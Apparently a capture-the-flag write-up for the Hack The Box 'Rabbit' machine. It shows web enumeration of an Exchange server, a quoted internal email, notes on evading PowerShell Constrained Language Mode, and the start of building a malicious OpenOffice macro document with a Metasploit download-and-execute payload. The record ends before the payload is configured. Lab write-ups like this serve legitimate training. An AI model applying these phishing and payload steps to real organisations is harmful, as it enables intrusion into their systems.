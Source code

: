 ### https://crackstation.net/

Use crackstation to get password





## HTTPS://Rabbit.htb.local

### gobuster

```
- /public
- /exchange   -> web auth for Exchange

- /ews        -> simple auth


## https://rabbit.htb.local/owa/ : Outlook : Ariel


```
Received
 
Wednesday, November 15, 2017 11:17 PM
Please send your weekly TPS reports to management ASAP!
Administrator

Deleted

From: Ariel <Ariel@htb.local>
To: Kain <Kain@htb.local>, Magnus <Magnus@htb.local>, Raziel
	<Raziel@htb.local>, "dimitri@htb.local" <dimitri@htb.local>
Subject: please
```


Powershell Constrained Language Mode is enabled. OpenOffice has support for macros, which can be used to gain the initial foothold.
The “New-Object” cmdlet is used in PowerShell reverse shells, but this is not an allowed type in
Constrained Language Mode.
Powershell Invoke-WebRequest (allowed in Constrained Language Mode)
Although there are documented Constrained Language Mode bypasses, the email didn’t mention
other application whitelisting controls such as AppLocker or WDAC, and so a binary payload may
be a better option.


### Generate odt file with msfvenom


```
# msfconsole 
msf5 > 
msf5 > use exploit/multi/misc/openoffice_document_macro
msf5 exploit(multi/misc/openoffice_document_macro) > set payload windows/download_exec
payload => windows/download_exec
msf5 exploit(multi/misc/openoffice_document_macro) > show options

